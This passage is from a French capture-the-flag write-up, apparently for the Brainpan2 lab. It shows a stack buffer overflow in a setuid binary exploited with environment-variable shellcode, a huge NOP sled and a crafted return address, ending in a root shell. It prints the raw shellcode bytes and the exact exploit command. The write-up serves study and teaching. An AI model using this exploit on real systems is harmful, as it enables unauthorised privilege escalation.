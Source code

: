 Ici la difficulté est liée au fait qu'on a un buffer très petit pour placer le shellcode (14 octets sans [nop-slep](https://en.wikipedia.org/wiki/NOP_slide))  

Heureusement pour nous, l'[ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) n'est pas activée :  

```plain
anansi@brainpan2:~$ cat /proc/sys/kernel/randomize_va_space
0
```

On va donc pouvoir faire une exploitation "old-school" qui consiste à charger le shellcode en environnement, auquel cas on aura toute la place souhaitée pour le shellcode avec un nop-sled énorme :)  

On écrit un petit programme qui nous donnera l'adresse du shellcode une fois monté dans l'environnement :  

```c
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
  char *s = getenv("EGG");
  printf("EGG => %p\n", s);
  return 0;
}
```

On compile, on upload, on rend exécutable...  

On trouve [un shellcode sympa](http://www.shell-storm.org/shellcode/files/shellcode-399.php) qu'on exporte avec un nop-slep de 64000 octets (c'est une piscine olympique de nops !)  

```plain
anansi@brainpan2:~$ export EGG=`perl -e 'print "\x90"x64000 . "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"'`
anansi@brainpan2:~$ /tmp/get_addr 
EGG => 0xbfff0007
```

Comble de la malchance, un octet nul est présent dans l'adresse... Mais vu la taille du nop-sled on peut mettre 256 de plus, on est toujours dedans :  

```plain
anansi@brainpan2:~$ /home/reynard/msg_root `perl -e 'print "A"x14 . "\x07\x01\xff\xbf"'` test
$ id
uid=104(root) gid=1000(anansi) groups=106(root),50(staff),1000(anansi)
```

Bingo !  

Un petit tour de manip plus tard afin de relancer *tshd* mais avec nos nouveaux privilèges...  

```plain
root # cd /root/
root # ls -al
total 28
drwx------  3 root  root  4096 Nov  5 09:56 .
drwxr-xr-x 22 root  root  4096 Nov  5 07:09 ..
drwx------  2 root  root  4096 Nov  4 10:08 .aptitude
-rw-------  1 root  root     0 Nov  5 09:57 .bash_history
-rw-r--r--  1 root  root   589 Nov  5 09:56 .bashrc
-rw-r--r--  1 root  root   159 Nov  5 09:56 .profile
-rw-------  1 root  root   461 Nov  5 09:48 flag.txt
-rw-------  1 root  root   245 Nov  5 09:47 whatif.txt
```
